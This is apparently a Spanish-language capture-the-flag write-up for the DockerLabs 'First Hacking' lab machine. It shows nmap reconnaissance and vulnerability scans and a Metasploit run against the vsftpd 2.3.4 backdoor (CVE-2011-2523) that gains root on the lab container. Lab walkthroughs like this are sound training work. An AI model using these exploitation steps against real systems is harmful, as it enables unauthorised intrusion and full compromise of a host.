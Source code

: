 Machine name: First haking<br>
plataforma: https://dockerlabs.es/#/<br>
Dificultad: Muy facil<br>
source: https://mega.nz/file/oCd2VC5D#QfiRoFmZrZ-FjTuyRX9bLw7638fjluwp6jNth7JjXTw<br>
Autor: El pinguino de Mario<br>

Herramientas:
- Ping
- NMAP
- Metasploit

Máquina: <br>
![[image]](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Firsthacking%20machine.png) <br>
despliegue:

```sh fold:"Despliegue de la maquina"
sudo bash auto_deploy.sh firsthacking.tar 
```

Despliegue: <br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Despliegue.png) <br>
ping a la IP:
```sh fold:"Ping a la máquina"
ping -c1 172.17.0.2
```
<br>
![Ping](./Images/Dockerlabs - FirstHacking - Ping para ver conectividad.png)
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Ping%20para%20ver%20conectividad.png?raw=true)<br>
TTL: 64 linux

reconocimiento
```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmpa%20reconocimiento.png?raw=true) <br>

vemos que encontramos el puerto 21
vamos a lanzar un nmap con detalles para el puerto 21
```sh fold:"Reconocimiento con nmap y scrips del puerto 21"
sudo nmap --script "vuln" -p 21 172.17.0.2
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Nmap%20con%20exploit%20al%20puerto%2021.png?raw=true) <br>

tenemos la versión 2.3.4 y un cve:CVE-2011-2523
vamos a intentar explotarlo con metasploit

lanzamos metaesploit
buscamos por el CVE y al no encontrarlo buscamos por la versión de FTP:

```sh fold:"metaesploit"
search CVE-2011-2523 # No results
search ftp 2.3.4
use 0
set RHOSTS 172.17.0.2
run
```
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Metasploit%20encontrando%20el%20sploit.png) <br>


metaesploit configuramos el IP destino:<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Metaesploit%20configuracion%20de%20la%20IP%20del%20host.png)


Una vez configurado el metasploit lanzamos run para lanzar el ataque
<br>
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Correr%20metaesploit.png)<br>
conseguimos acceso con el usuario root:<br>

![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/FirstHacking/Images/Dockerlabs%20-%20FirstHacking%20-%20Usuario%20Root.png)
